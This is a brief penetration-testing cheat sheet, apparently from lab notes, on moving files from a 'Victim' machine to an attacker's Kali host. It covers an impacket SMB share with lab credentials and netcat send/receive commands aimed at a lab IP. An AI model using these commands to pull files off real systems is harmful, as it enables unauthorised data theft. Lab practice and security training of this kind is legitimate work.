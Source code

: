 # Transferring Files



## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 10.10.154.80 1234 < user.jpg
```

